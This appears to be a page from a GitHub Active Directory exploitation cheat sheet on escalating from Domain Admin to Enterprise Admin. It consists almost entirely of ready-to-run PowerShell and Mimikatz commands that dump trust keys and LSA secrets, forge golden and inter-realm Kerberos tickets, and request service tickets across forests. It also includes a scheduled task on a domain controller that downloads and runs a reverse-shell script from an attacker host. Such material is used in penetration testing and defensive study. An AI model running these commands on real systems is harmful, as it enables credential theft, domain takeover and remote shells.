 ### DA TO EA - Domain Trust Key
```powershell
$sess = New-PSSession -ComputerName DC01.domain.local
Enter-PSSession -Session $sess
# EP + AMSI BYPASS + EXIT
Invoke-Command -FilePath C:\path\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession -Session $sess
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```
Create the inter-realm TGT

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-x-x-x-x-x /sids:S-1-5-x-x-x-x-519 /rc4:00000000000000000000000000000000 /service:krbtgt /target:domain.local /ticket:C:\path\trust_tkt.kirbi"'
```

Create the TGS for service in parent domain
```powershell
.\asktgs.exe C:\path\trust_tkt.kirbi CIFS/DC01.domain.local
.\kirbikator.exe lsa .\CIFS.DC01.domain.local.kirbi
```

### DA TO EA - KRBTGT Hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-x-x-x-x /sids:S-1-5-x-x-x-x-519 /krbtgt:00000000000000000000000000000000 /ticket:C:\path\krbtgt_tkt.kirbi"'
Invoke-Mimikatz -Command '"kerberos::ptt C:\path\krbtgt_tkt.kirbi"'
schtasks /create /S DC01.domain.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "taskname" /TR "powershell.exe -c 'iex (New-ObjectNet.WebClient).DownloadString(''http://attacker/Invoke-PowerShellTcpEx.ps1''')'"
# SET UP YOU LISTENER
schtasks /Run /S DC01.domain.local /TN "taskname"
```

### Acces Share test.domain.local to domain2.local forest
```powershell
# KEYS
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
# TGT
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:test.domain.local /sid:S-1-5-x-x-x-x /rc4:00000000000000000000000000000000 /service:krbtgt /domain.local /ticket:C:\path\trust_forest_tkt.kirbi"'
# TGS for a service (CIFS)
.\asktgs.exe C:\path\trust_forest_tkt.kirbi CIFS/DC01.domain2.local
# Present the TGS to the service (CIFS)
.\kirbikator.exe lsa .\CIFS.DC01.domain2.local.kirbi

```

:information_source: Well-known security identifiers. (S-1-5-21domain)
| Property flag | Value in hexadecimal |
|---|---|
| 500 | Administrator |
| 501 | Guest |
| 502 | KRBTGT |
| 512 | Domain Admins |
| 513 | Domain Users |
| 514 | Domain Guests |
| 515 | Domain Computers |
| 516 | Domain Controllers |
| 517 | Cert Publishers |
| 518 | Schema Admins |
| 519 | Enterprise Admins |
| 520 | Group Policy Creator Owners |
| 526 | Key Admins |
| 527 | Enterprise Key Admins |
| 553 | RAS and IAS Servers |

[<- BACK TO MAIN MENU ->](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md)